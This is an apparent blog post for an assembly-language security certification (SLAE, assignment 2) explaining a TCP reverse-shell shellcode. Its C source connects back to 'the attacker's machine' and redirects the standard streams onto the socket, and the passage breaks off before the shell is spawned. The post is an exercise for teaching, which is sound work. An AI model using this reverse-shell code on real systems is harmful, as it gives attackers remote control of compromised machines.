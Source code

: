 ```yaml
---
layout: post
title:  "SLAE Assignment 2 - TCP Reverse Shellcode"
date:   2017-04-19
category: Certification
excerpt_separator: <!--more-->
hidden: true
---
```

<br />
Student **SLAE - 891**  
Github: [https://github.com/phackt/slae](https://github.com/phackt/slae)  
[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)  

Hello everybody,  
  
So here we are for the second part of our shellcodes serie. Today we will deal with a reverse TCP shellcode.  
This shellcode will be pretty similar to the bind one, except that we will connect back to the attacker's machine in order to provide a shell on the compromised one.  

  
So let's see what changed.  
  
### Assignment 2:  

Code is available on my [github repo](https://github.com/phackt/slae/tree/master/assignment2).  
  
**Our Goal:**  
> *Create a Shell_Reverse_TCP shellcode:*
 - *reverse connects to IP and PORT and spawns a shell*
 - *easily configurable IP and PORT*

Here is the C source code we used:  
```c
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
 
int main(void)
{
        int clientfd, sockfd, ret;
        int dstport = 8080;
        struct sockaddr_in mysockaddr;
 
        sockfd = socket(AF_INET, SOCK_STREAM, 0);
 
        mysockaddr.sin_family = AF_INET; //2
        mysockaddr.sin_port = htons(dstport); //8080
        mysockaddr.sin_addr.s_addr = inet_addr("127.0.0.1"); //localhost
 
        // connecting to attacker's machine
        ret = connect(sockfd, (struct sockaddr *) &mysockaddr, sizeof(struct sockaddr_in));
        if(ret == -1)
        {
                perror("Attacker's machine is not listening. Quitting!");
                exit(-1);
        }

        dup2(sockfd, 0);
        dup2(sockfd, 1);
        dup2(sockfd, 2);
```